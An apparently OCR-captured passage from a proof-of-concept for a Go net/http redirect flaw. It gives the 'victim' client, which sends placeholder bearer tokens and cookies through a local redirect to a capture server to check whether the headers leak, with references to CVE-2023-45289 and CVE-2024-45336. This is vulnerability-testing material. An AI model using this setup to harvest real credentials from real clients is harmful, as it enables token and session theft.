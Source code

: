 ```go
		log.Fatalf(" Failed to start: %v", err)
	}
}`

**3. Victim Go Application - `victim_app.go`**

Go

`package main

import (
	"fmt"
	"log"
	"net/http"
	"io/ioutil"
	"strings"
)

func main() {
	// URL of the Redirecting Server (Server A)
	initialURL := "http://localhost:8081/initial_request"
	// For CVE-2023-45289 type test, Server A redirects directly to Server B (localhost:8082)
	// For CVE-2024-45336 type test, a more complex chain is needed:
	// victim -> ServerA:/initial (redirects to ServerC_cross_domain) -> ServerC_cross_domain (redirects to ServerB_capture_or_ServerA_same_domain_final)
	// This PoC focuses on the simpler direct cross-domain redirect leak.

	client := &http.Client{
		// Using default CheckRedirect policy.
		// In a vulnerable Go version, this policy has flaws.
	}

	req, err := http.NewRequest("POST", initialURL, strings.NewReader("body=content"))
	if err!= nil {
		log.Fatalf(" Error creating request: %v", err)
	}

	// Add sensitive headers
	req.Header.Add("Authorization", "Bearer SUPER_SECRET_TOKEN_XYZ")
	req.Header.Add("Cookie", "sessionid=sensitive_session_data_123")
	req.Header.Add("X-Custom-Secret", "my_app_specific_secret")

	log.Printf(" Making POST request to %s with sensitive headers.", initialURL)
	resp, err := client.Do(req)
	if err!= nil {
		log.Fatalf(" Error performing request: %v", err)
	}
	defer resp.Body.Close()

	bodyBytes, _ := ioutil.ReadAll(resp.Body)
	log.Printf(" Received response. Status: %s. Final URL: %s", resp.Status, resp.Request.URL.String())
	log.Printf(" Response Body from final destination:\n%s", string(bodyBytes))
	fmt.Println("----------------------------------------------------")
	fmt.Println("Test complete. Check logs of Capture Server (localhost:8082).")
	fmt.Println("If 'Authorization' or 'Cookie' headers are present in Capture Server logs, the leak is confirmed.")
	fmt.Println("----------------------------------------------------")
}`
```

